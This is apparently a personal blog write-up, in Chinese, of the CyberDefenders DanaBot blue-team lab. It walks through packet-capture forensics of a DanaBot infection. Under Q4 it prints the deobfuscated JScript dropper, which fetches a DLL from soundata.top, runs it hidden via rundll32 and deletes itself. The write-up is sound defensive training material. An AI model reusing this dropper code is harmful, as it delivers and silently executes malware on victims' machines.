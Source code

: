 ```yaml
---
title: DanaBot Lab
published: 2025-08-02
updated: 2025-08-03
description: "CyberDefenders DanaBot Lab writeup"
image: ""
tags: ["CyberDefenders", "Blue Team CTF"]
category: "CyberDefenders"
draft: false
---
```


跟鯨魚諮詢完之後知道有 blue team ctf (再次謝謝鯨魚)  
不能白問，挑我最喜歡的看封包 lab 練一下  
甚麼時候換題目類型...看心情 xd

# DanaBot Lab

[Lab 連結](https://cyberdefenders.org/blueteam-ctf-challenges/danabot/)

## Q1

在封包中看到 `portfolio.serveirc.com` ，用 [VirusTotal](https://www.virustotal.com/gui/home/upload) 查詢這個 domain

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058814.png)

在 wireshark 裡面看到關於 `portfolio.serveirc.com` 的其中一條出現 ip

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058888.png)
所以初始存取的 ip 是 `62.173.142.148`

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058943.png)

> Note: 可以用 VirusTotal 去確認一個網站的信譽

## Q2

在第一次登入看到混淆過的 JavaScript 程式碼，先用線上工具看看能不能解混淆

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205058991.png)

根據解混淆後的程式碼，可以知道應該是使用了`.dll` 並 random 了 10 個字母作為檔案名稱  
(看起來像是下一題的部分)

然後再仔細看一眼封包，就發現檔案名稱是`allegato_708.js`

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059042.png)

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059081.png)

## Q3

在 `File > Export Objects > HTTP` 找到第一個惡意程式，用 `sha256sum` 可以找到 SHA-256 hash

```bash
sha256sum login.php
```

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059122.png)

## Q4

Windows 系統執行 `.js` 檔案是由內建的 `wscript.exe` 或是 `cscript.exe` 負責執行的

```javascript
function _0x414360(_0x5c5160) {
  var _0x119065 = "";
  var _0x5a393f = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".length;
  for (var _0x3d45b7 = 0x0; _0x3d45b7 < _0x5c5160; _0x3d45b7++) {
    _0x119065 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(
      Math.floor(Math.random() * _0x5a393f)
    );
  }
  return _0x119065 + ".dll";
}
var _0x48a85a = _0x414360(0xa);
var _0x44bdd9 =
  new ActiveXObject("Scripting.FileSystemObject").GetSpecialFolder(0x2) +
  "\\" +
  _0x48a85a;
var _0x5da57f = WScript.CreateObject("MSXML2.XMLHTTP");
_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);
_0x5da57f.Send();
if (_0x5da57f.Status == 0xc8) {
  var _0x3c8952 = WScript.CreateObject("ADODB.Stream");
  _0x3c8952.Open();
  _0x3c8952.Type = 0x1;
  _0x3c8952.Write(_0x5da57f.ResponseBody);
  _0x3c8952.Position = 0x0;
  _0x3c8952.SaveToFile(_0x44bdd9, 0x2);
  _0x3c8952.Close();
  var _0x1e16b0 = WScript.CreateObject("Wscript.Shell");
  _0x1e16b0.Run("rundll32.exe /B " + _0x44bdd9 + ",start", 0x0, true);
}
new ActiveXObject("Scripting.FileSystemObject").DeleteFile(
  WScript.ScriptFullName
);
```

從 `Wscript.Shell` 可以看出是用 `wscript.exe` 來執行的

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059159.png)

## Q5

在 `GET /resources.dll` 裡有一行 `This program cannot be run in DOS mode.` ，然後接下來就是很多的 DoS 紀錄

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059213.png)

所以第二個惡意程式的檔案副檔名就是 `.dll`

![](/assets/cyberdefenders/DanaBot_Lab/IMG-20250808205059257.png)

## Q6

最後用 `md5sum` 可以找到 MD5 hash

```bash
md5sum resources.dll
```

---

```txt
I successfully completed DanaBot Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/pinzhenhuang0910/danabot/

#CyberDefenders #CyberSecurity #BlueYard #BlueTeam #InfoSec #SOC #SOCAnalyst #DFIR #CCD #CyberDefender
```

---

## 工具

[VirusTotal](https://www.virustotal.com/gui/home/upload)
可以確認 IP 的信譽

[Obfuscator.io Deobfuscator](https://obf-io.deobfuscate.io/)
解 JavaScript 混淆

[# synchrony](https://deobfuscate.relative.im/)
解 JavaScript 混淆
